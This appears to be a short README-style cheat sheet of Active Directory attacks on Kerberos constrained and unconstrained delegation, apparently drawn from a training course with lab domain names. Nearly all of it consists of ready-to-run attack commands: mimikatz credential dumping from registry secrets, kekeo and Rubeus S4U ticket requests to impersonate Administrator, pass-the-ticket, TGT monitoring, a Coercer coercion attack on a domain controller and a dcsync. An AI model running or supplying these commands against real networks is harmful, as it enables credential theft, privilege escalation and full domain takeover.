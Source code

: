 # Constrained vs Unconstrained

## Delegation configuration

#### 1) HTTP

#### 2) CIFS

#### 3) LDAP

#### 4) HOST

#### 5) MSSQL

# Constrained Delegation Exploitation 

## Example:

#### 1) Import-Module c:\tools\Powerview.ps1

#### 2) Get-NetUser -TrustedToAuth

#### 3) mimikatz.exe

#### 4) token::elevate

#### 5) lsadump::secrets (Pulls clear text credentials from registry hive)

#### 6) Exit mimikatz after "token::elevate" command

#### 7) kekeo.exe

#### 8) tgt::ask /user:USER/SERVICE /domain:DOMAIN /password:PASSWORD

#### 9) tgs::s4u /tgt:TICKET.KIRBI /user:USER /service:SERVICE *You can run same command to impersonate more services.

#### 10) mimikatz

#### 11) privilege::debug

#### 12) kerberos::ptt TICKET.KIRBI

#### 13) kerberos::ptt TICKET2.KIRBI

#### 14) klist

# Kerberos Constrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetUser -TrustedToAuth`                                 | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123`                       | Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                        | Used to enter a new powershell remote session on the `dc1` computer |

# Coercing Attacks & Unconstrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetComputer -Unconstrained \| select samaccountname`       | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1`                           | Used to monitor new logons and extract TGTs. |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local` | Used to perform a coercing attack towards DC1, forcing it to connect to WS001.
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |
